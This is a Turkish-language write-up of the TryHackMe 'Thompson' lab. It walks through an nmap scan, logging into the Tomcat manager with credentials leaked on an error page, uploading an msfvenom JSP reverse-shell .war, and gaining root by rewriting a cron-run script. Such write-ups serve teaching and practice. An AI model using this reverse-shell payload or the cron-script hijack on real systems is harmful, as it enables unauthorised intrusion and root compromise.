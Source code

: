 ```yaml
---
title: 'TryHackMe | Thompson WriteUp'
author: appdone
categories: [TryHackMe Challenges]
render_with_liquid: false
media_subpath: /images/tryhackme_thompson/
image:
  path: logo.webp
---
```


Bu yazımda, TryHackMe platformunda yer alan “Thompson” isimli meydan okumayı çözeceğiz. Öncelikle hedefi tanımak adına nmap ile bir port taraması yapalım. Daha sonra açık portlara ve üzerinde çalışan servislere göre yolumuzu çizmeye başlayabiliriz.

```console
$ nmap -sC -sV -T4 10.10.84.205
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 22 (SSH), 8009 (Apache Jserv) ve 8080 (Apache Tomcat) olmak üzere üç portun açık olduğunu öğreniyoruz. 8080 numaralı HTTP servisini açtıktan sonra “manager app” butonuna tıkladım ve kullanıcı bilgilerini girebilmemiz için bir pop-up açıldı. Burada iptal butonuna tıkladığımızda aşağıdaki hata sayfası ile karşılaşıyoruz. Burada bir kullanıcı adı ve parola bulunuyor.

![](1.webp){: width="900" height="500" }

Bu kullanıcı bilgilerini kullanarak sisteme giriş yapabiliyoruz. Sayfayı biraz aşağıya kaydırdığımızda .war dosyalarını yükleyebileceğimiz bir form ile karşılaşıyoruz.

![](2.webp){: width="1200" height="600" }

Msfvenom ile reverse shell alabileceğimiz bir .war dosyası oluşturalım.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=1234 -f war > shell.war
```

Dosyayı oluşturduktan sonra yükleyelim.

![](3.webp){: width="1000" height="600" }

Yükledikten sonra uygulamalar listesinde oluşturduğumuz dosyanın adını göreceğiz. Ona tıklamadan önce belirttiğimiz port’u dinlemeye alalım.

Sisteme girdikten sonra /home/jack dizini altından herhangi bir kısıtlama olmadan ilk bayrağı alabiliyoruz. Aynı dizin içerisinde id.sh ve test.txt adında iki dosya bulunuyor. /etc/crontab dosyasını kontrol ettiğimizde ise id.sh dosyasını 1 dk ara ile sürekli çalıştırdığını görüyoruz.

```console
(Meterpreter 1)(/) > cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh
#
```

id.sh dosyanın içeriğini değiştirebiliyoruz. İçerisine /root/root.txt dosyasındaki bayrağı alabilmek için bir komut girdim ve beklemeye başladım. Bir süre sonra dosyayı çalıştırdı ve belirttiğim test.txt dosyasına bayrağı yazdırdı.

```console
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat test.txt
d89d539***3ae7ca3a
```

Bunun yerine reverse shell alabileceğimiz bir komut girip dinlediğimiz bir port üzerinden shell alabiliriz. Değişiklik olması amacıyla biraz daha kolay yoldan gittim.
